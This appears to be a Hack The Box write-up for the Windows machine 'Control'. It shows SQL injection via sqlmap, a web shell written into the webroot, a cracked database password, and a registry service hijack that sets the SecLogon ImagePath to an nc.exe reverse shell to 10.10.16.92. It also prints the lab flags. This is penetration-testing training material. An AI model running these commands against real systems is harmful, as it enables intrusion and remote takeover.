 ```yaml
---
title: Control
published: true
categories: [box, sqli, Windows]
---
```

![](/htb_box/img/2020-05-07-16-48-26.png)
# Control 
- [Control](#control)
  - [Enumeration](#enumeration)
  - [Exploits - Work](#exploits---work)
  - [User](#user)
  - [PrivEsc](#privesc)
  - [Root](#root)
## Enumeration 
[Nmap-File](Control-Enum.txt)

First thing to check based on the nmap is port 80. Basic website with lorem ipsum, and dirbuster does not reveal more. Source code shows an IP address regarding an ssl feature pending and the admin/login page gives an error 

> Access Denied: Header Missing. Please ensure you go through the proxy to access this page

This typically refers to the 'X-Forwarder-For' header so fire up burp and lets inject that header to the get request

![](../img/Control.md.png)

This admin page shows a table and a search feature, looks like sqli...

## Exploits - Work

Using sql injection commands an error is shown, so time to use sqlmap to make quick work of this. Save the POST for a regular search through burp and execute a sqlmap.

    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL

This yields basically nothing, however it did work therefore we might be able to leverage this for an os-shell or possibly read/write files. 

    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL --os-shell

OS-shell failed to handle commands and the next thing to try is file-read looking at the windows default webroot
    
    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL --file-read='c:/Inetpub/wwwroot/admin.php'

That failed to retrieve last thing is writing a file to that same directory and verify it was sent.

    sqlmap -r productName -p productName --level=3 --risk=3 --file-write=test.php --file-dest="c:\Inetpub\wwwroot\test.php"
    do you want confirmation that the local file 'shelly.php' has been successfully written on the back-end DBMS file system ('c:/Inetpub/wwwroot/shellys.php')? [Y/n] 
    [13:01:34] [INFO] retrieved: 69
    [13:01:34] [INFO] the local file 'shelly.php' and the remote file 'c:/Inetpub/wwwroot/shellys.php' have the same size (69 B)
    [13:01:34] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.167'

That worked as file was written which leaves getting a shell or enumerating manually through a php command shell.

For the first privelege escalation dump the database passwords and allow sqlmap to decrypt the hash to get:

    hector - l33th4x0rhector

Use these credentials in powershell to execute commands as Hector

    # $SecPassword = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
    # $Cred = New-Object System.Management.Automation.PSCredential('Fidelity\Hector', $SecPassword)
    # $s = New-PSSession -Credential $Cred
    # Invoke-Command -Session $s -ScriptBlock { type C:\Users\Hector\Desktop\user.txt }

## User 
>d8782dd01fb15b72c4b5ba77ef2d472b

## PrivEsc
Using the same methods in the first privesc execute commands to identify the weakness and based on the computer name Control I assume it is something with services as the registry key is called CurrentControlSet, time to enumerate for a weak service using the following command for different services I found RemoteRegistry, SecLogon, and BITS allowed full control

    # Invoke-Command -Session $s -ScriptBlock { C:\Windows\Temp\subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RemoteRegistry" /display }
    # Invoke-Command -Session $s -ScriptBlock { C:\Windows\Temp\subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SecLogon" /display }
    /pace =control\hector 	ACCESS_ALLOWED_ACE_TYPE-0x0

	CONTAINER_INHERIT_ACE-0x2      INHERITED_ACE-0x10             

    Key and SubKey - Type of Access:

	Full Control

    Detailed Access Flags :

	KEY_QUERY_VALUE-0x1        KEY_SET_VALUE-0x2          KEY_CREATE_SUB_KEY-0x4     

	KEY_ENUMERATE_SUB_KEYS-0x8 KEY_NOTIFY-0x10            KEY_CREATE_LINK-0x20       DELETE-0x10000             

	READ_CONTROL-0x20000       WRITE_DAC-0x40000          WRITE_OWNER-0x80000        

With that detail I changed the key for ImagePath

    # Invoke-Command -Session $s -ScriptBlock { reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RemoteRegistry" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002" /f }
    - The operation completed successfully.
    # Invoke-Command -Session $s -ScriptBlock { sc.exe qc "remoteregistry" }
    - [SC] OpenService FAILED 5:
    # Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: seclogon
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Secondary Logon

Bingo! SecLogon is the winner time to modify and restart...

    # Invoke-Command -Session $s -ScriptBlock { reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002" /f }
    - The operation completed successfully.
    PS C:\windows\temp> Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: seclogon
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002
Start a listener on port 9002 and start the service

    PS C:\windows\temp> Invoke-Command -Session $s -ScriptBlock { sc.exe start "seclogon" }

![](../img/Control.md-1.png)

## Root

>8f8613f5b4da391f36ef11def4cec1b1
